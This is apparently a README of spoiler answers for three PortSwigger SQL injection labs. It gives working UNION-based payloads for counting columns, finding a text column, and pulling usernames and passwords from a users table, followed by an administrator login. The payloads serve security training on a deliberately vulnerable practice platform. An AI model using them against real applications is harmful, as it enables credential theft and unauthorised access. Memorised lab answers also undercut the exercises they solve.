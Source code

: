 # [SQL Injection Labs](https://portswigger.net/web-security/all-labs)

This contains answers and spoilers to all of PortSwigger's SQL Injection labs.
Do not read unless explicitly looking for exact answers

## UNION - Determine number of columns

<details> 
  <summary> <b> ANSWER SPOILER ALERT </b> </summary>
      
  Identify number of columns by appending NULL to UNION SELECT string:  

    category=' UNION SELECT NULL,NULL,NULL--
  
</details>

## UNION - Find column containing text

<details> 
  <summary> <b> ANSWER SPOILER ALERT </b> </summary>
 
 Identify number of columns by appending NULL to UNION SELECT string:  
  
    category=' UNION SELECT NULL,NULL,NULL--
      
 Replace NULL with string to identify column:
  
    category=' UNION SELECT NULL,'[STRING]',NULL--
      
</details>

## UNION - Retrive data from other tables

<details> 
  <summary> <b> ANSWER SPOILER ALERT </b> </summary>
   
  Verify number of colums with the NULL payload:
  
    category=' UNION SELECT NULL,NULL--
    
  Verify they contain text:
  
    category=' UNION SELECT 'abc','def'--
    
  Retrieve data from users table:
  
    category=' UNION SELECT username, password FROM users--
  
  Login using administrator and password found from injection

</details>
